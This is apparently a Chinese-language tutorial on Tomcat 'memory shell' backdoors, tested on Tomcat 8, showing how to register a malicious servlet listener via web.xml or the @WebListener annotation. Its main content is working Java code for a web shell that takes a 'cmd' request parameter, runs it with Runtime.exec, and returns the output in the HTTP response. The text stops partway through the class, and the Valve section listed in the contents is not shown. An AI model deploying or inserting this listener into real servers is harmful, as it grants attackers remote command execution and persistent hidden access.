 目录

- Listener 内存马
- Valve 内存马


> 已测试 tomcat8

### Listener 内存马

#### 静态添加Listener
- web.xml
- 注解 @WebListener

##### web.xml
> ```xml
> <?xml version="1.0" encoding="UTF-8"?>
> <web-app version="4.0">
>     <listener>
>         <listener-class>com.example.tomcat8.listener.ListenerDemo</listener-class>
>     </listener>
> </web-app>
> ```

![image](https://user-images.githubusercontent.com/55024146/144615972-ff9454cc-6841-424b-9975-3e8f72ab5ca4.png)

##### 注解 @WebListener

@WebListener

> ```java
> @WebListener
> public class ListenerDemo implements ServletRequestListener {
>     @Override
>     public void requestInitialized(ServletRequestEvent sre) {
>         HttpServletRequest req = (HttpServletRequest) sre.getServletRequest();
>         try {
>             SimpleDateFormat sdf = new SimpleDateFormat();
>             sdf.applyPattern("yyyy-MM-dd HH:mm:ss");
>             Date date = new Date();
>             System.out.println("Listener触发时间：" + sdf.format(date));
>             if (sre.getServletRequest().getParameter("cmd") != null){
>                 Process process = Runtime.getRuntime().exec(sre.getServletRequest().getParameter("cmd"));
>                 java.io.BufferedReader bufferedReader = new java.io.BufferedReader(new java.io.InputStreamReader(process.getInputStream()));
>                 Field requestF = req.getClass().getDeclaredField("request");
>                 requestF.setAccessible(true);
>                 Request request = (Request)requestF.get(req);
>                 StringBuilder stringBuilder = new StringBuilder();
>                 String line;
>                 while ((line = bufferedReader.readLine()) != null) {
>                     stringBuilder.append(line + '\n');
>                 }
>                 request.getResponse().getOutputStream().write(stringBuilder.toString().getBytes());
>                 request.getResponse().getOutputStream().flush();
>                 request.getResponse().getOutputStream().close();
>             }
>         } catch (IOException | NoSuchFieldException | IllegalAccessException e) {
>             e.printStackTrace();
>         }
>     }
>     @Override
>     public void requestDestroyed(ServletRequestEvent sre) {
>     }